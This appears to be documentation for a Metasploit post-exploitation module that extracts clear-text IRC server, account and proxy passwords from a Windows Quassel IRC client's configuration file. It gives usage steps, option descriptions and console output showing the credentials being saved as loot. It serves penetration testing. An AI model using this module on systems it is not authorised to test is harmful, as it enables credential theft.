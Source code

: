## Vulnerable Application

This post-exploitation module extracts clear text credentials from the Quassel IRC Client.

The Quassel IRC Client is avaialble from (https://quassel-irc.org/downloads).

This module extracts information from the quasselclient.ini file in the "AppData\Roaming\quassel-irc.org" directory.

This module extracts server information such as host name, port, account name, password and proxy password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/quasell_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Quassel Client v0.14.0 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Default Output
```
msf post(windows/gather/credentials/quassel_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Quassel irc's Quasselclient.ini file found
[*] Downloading C:\Users\test\AppData\Roaming\quassel-irc.org\quasselclient.ini
[*] Quassel irc Quasselclient.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507163717_default_10.0.0.2_QuasselIRCquass_570372.ini

[+] 1\HostName=10.245.100.2
[+] 2\HostName=10.0.0.3
[+] 1\Port=4242
[+] 2\Port=1234
[+] 1\AccountName=Test
[+] 2\AccountName=Test#2
[+] 1\Password=tiaspbiqe2r
[+] 2\Password=tiaspbiqe2r
[+] 1\ProxyHostName=localhost
[+] 2\ProxyHostName=
[+] 1\ProxyPort=8080
[+] 2\ProxyPort=8080
[+] 1\ProxyUser=test
[+] 2\ProxyUser=
[+] 1\ProxyPassword=tiaspbiqe2r
[+] 2\ProxyPassword=
[+] File with data saved:  /home/kali/.msf4/loot/20240507163717_default_10.0.0.2_EXTRACTIONquasse_134569.ini
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### Quassel Client v0.14.0 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Verbose Output
```
msf post(windows/gather/credentials/quassel_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Quassel irc's base folder not found in user's user directory

[*] Starting Packrat...
[*] Quassel irc's base folder found
[*] Found the folder containing specified artifact for quasselclient.ini.
[*] Quassel irc's Quasselclient.ini file found
[*] Processing C:\Users\test\AppData\Roaming\quassel-irc.org
[*] Downloading C:\Users\test\AppData\Roaming\quassel-irc.org\quasselclient.ini
[*] Quassel irc Quasselclient.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507164141_default_10.0.0.2_QuasselIRCquass_310535.ini

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\HostName=10.245.100.2
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\HostName=10.0.0.3
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\Port=4242
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\Port=1234
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\AccountName=Test
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\AccountName=Test#2
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\Password=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\Password=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyHostName=localhost
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyHostName=
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyPort=8080
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyPort=8080
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyUser=test
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyUser=
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 1\ProxyPassword=tiaspbiqe2r
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] 2\ProxyPassword=
[+] File with data saved:  /home/kali/.msf4/loot/20240507164141_default_10.0.0.2_EXTRACTIONquasse_967148.ini
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
